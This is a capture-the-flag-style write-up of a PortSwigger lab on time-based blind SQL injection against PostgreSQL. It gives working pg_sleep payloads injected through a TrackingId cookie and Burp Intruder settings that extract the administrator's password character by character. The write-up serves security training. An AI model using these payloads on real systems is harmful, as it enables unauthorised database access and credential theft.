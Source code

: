 # Write-up: Blind SQL injection with time delays and information retrieval
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

In tracking cookie, we see that the cookie contains a `TrackingId` parameter, which is vulnerable to blind sql injection according to problem statement.

Using conditional sql query, we can delay response is a condition is true. We can use `pg_sleep` function to delay the response. We will also use `%3B` to encode `;` to separate the queries.
`kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`, this gives a delay of 10 seconds.
and `kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--`, this gives no delay in response.

Now we will check the length of password of user `administrator` using the following query.
`kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (SELECT LENGTH(password) FROM users WHERE username='administrator')=1 THEN pg_sleep(10) ELSE pg_sleep(0) END--`, this gives no delay in response showing that the length of password is not 1.

### Exploitation

We can automate this process using Burpsuite Intruder.
`kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (SELECT LENGTH(password) FROM users WHERE username='administrator')=§1§ THEN pg_sleep(10) ELSE pg_sleep(0) END--`, where `§1§` is the payload position.
Attack Type is `Sniper`, Payload set is `Numbers`, Start 1, Step 1, End 30.

After attack completion, We can see response time by adding `Response Completed` column, that it is increased when the length of password is 20.

Now, we can use similar method to find the password. We can use the following query to check if the first character of password is `a-z` or `0-9` for each position of password.
`kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§' THEN pg_sleep(10) ELSE pg_sleep(0) END--`, where `§1§` and `§a§` are the payload position.
Attack type is `Cluster bomb`, 
Payload set 1 is `Numbers`, Start 1, Step 1, End 20.
Payload set 2 is `Simple list`, Values `abcdefghijklmnopqrstuvwxyz0123456789`.

After attack completion, we can filter the maximum response times for each position to get the password.

The password is `7r6dyo64472rpxi0g818`.

Hence, the lab is sovled.

![alt text](img/2.png)